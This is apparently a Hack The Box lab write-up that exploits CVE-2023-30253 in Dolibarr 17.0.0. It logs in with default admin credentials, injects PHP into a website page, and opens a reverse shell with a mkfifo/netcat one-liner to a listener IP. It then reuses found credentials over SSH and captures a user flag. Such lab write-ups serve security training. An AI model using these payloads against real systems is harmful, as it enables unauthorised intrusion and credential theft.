If we search a bit on Google, we can see that there is a registered vulnerability for Dolibarr 17.0.0 in CVE-2023-30253.

CVE-2023-30253 is a security flaw in Dolibarr software that enables authenticated users to execute remote code by utilizing an uppercase manipulation technique in injected data.

Upon trying the credentials admin for both the username and password, we successfully log in.



We can follow what is explained in this GitHub account to obtain a reverse shell.

https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file

We then click on the + sign to add a new website.



Next, we proceed to give our site a name.



Now, we need to add a page to our website. To do this, in the Pages section, we click on the + icon to add a new page.



Select the option to create a page from a template and proceed to give it a title.



After creating website and page, click on binoculars icon, this will open our created page in new tab.



Once the page is created, we then select Edit the HTML source . This is where we will embed our PHP code.



We then embed our PHP code here to run whoami on the target.
```bash
<?PHP echo system("whoami");?>
```


We need to view our page and confirm that we can run system commands. To do this, we click on the binoculars-like icon, which will redirect us to the page where we have the PHP code to run the whoami command, allowing us to check the current user context.



We can now escalate from simply running the whoami command to obtaining a full shell. To do this, we need to modify our payload. First, we start a Netcat listener on port 4455 to catch the incoming connection.
```bash
$ nc -lnvp 4455
```


Then add our reverse shell code;
```bash
<?pHp exec("/bin/bash -c ‘basg -i > /dev/tcp/10.10.14.15/4455 0>&1 ' ") ;?>
```


This payload soesn`t works, so we try te following that is provided by the official HTB writeup.
```bash
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4455 >/tmp/f");?>
```
The PHP code utilizes the system() function to execute a shell command on the server. The command first removes any existing named pipe at /tmp/f to ensure there is no conflict. It then creates a new named pipe in the same location. The command cat /tmp/f reads from the named pipe, while /bin/sh -i 2>&1 starts an interactive shell, redirecting both standard output and error to the named pipe. Finally, the nc 10.10.14.15 4455 > /tmp/f command connects to our IP address on port 4455 using Netcat , allowing the input and output of the shell to flow through the named pipe. This setup effectively creates a reverse shell connection back to our listener, enabling remote command execution on the target system.



Now we got the reverse shell in our Netcat terminal




We can use a script to get a more stable shell. The script command in Linux is used to create a typescript of everything that occurs in a terminal session. This command below starts a new shell session using a script , which creates a new interactive Bash shell.
```bash
$ script /dev/null -c /bin/bash
```


Enumerating the files present, we find an interesting file containing credentials:


Looking for users present, we see larissa in the /etc/passwd file.



Attempting to log in via SSH as the user larissa using the credentials we found earlier, we see that it works.
```bash
user: larissa
pswd: serverfun2$2023!!
```


Navigating trhow the directories we will get the user flag.


```bash
User flag:  6ef9cfc616cf675dad66b07e5ce05a25
```

[Back](README.md)